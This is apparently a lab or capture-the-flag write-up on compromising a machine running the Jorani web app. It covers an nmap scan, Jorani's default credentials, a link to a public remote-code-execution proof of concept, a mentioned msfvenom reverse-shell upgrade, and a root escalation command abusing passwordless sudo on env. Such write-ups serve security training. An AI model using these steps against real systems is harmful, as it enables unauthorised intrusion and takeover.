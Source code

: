 #Pwned! 
```IP
192.168.190.109
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.190.109 -vvv -p- -oN enum/full
```
The output being:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 76:18:f1:19:6b:29:db:da:3d:f6:7b:ab:f4:b5:63:e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMeGcI7LXAgYpdcxsbgmDh+FrFwBJxUEPxSU4XODxVs1CWLxFnxl1/SZ0ReciCentljLQxi9LqNYvR//3y6kAms=
|   256 cb:d8:d6:ef:82:77:8a:25:32:08:dd:91:96:8d:ab:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILE9A0DdfM97fpb5q8N9nmI/9/8rqT8ADRWK8KBegxYM
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.58 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 96C540E05EFE5C9E11F15DD5CE70BB0F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## HTTP 80
apache
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241206180053.png?raw=true)
/docs
Jorani
http://192.168.190.109/docs/install/
http://192.168.190.109/docs/install/iis7/web.config
http://192.168.190.109/docs/install/lighttpd/lighttpd.conf
http://192.168.190.109/docs/install/nginx/default

navigating to a web that doesnt exist redirects us to http://192.168.190.109/session/login
the jorani default creds are bbalet:bbalet


# Exploitation

we search for vulnerabilities and we discover a RCE 
https://raw.githubusercontent.com/Orange-Cyberdefense/CVE-repository/refs/heads/master/PoCs/CVE_Jorani.py

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241206181141.png?raw=true)

we get a pseudo terminal which we will upgrade with an msfvenom reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241206181416.png?raw=true)

# PrivEsc

## Manual
as shown in the previous screenshot, we have sudo permissions
we will first get the flag
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241206181504.png?raw=true)
we can run env without password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241206181618.png?raw=true)

Thus we can execute the following command
```
sudo /usr/bin/env /bin/sh
```
And get root access
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241206181735.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

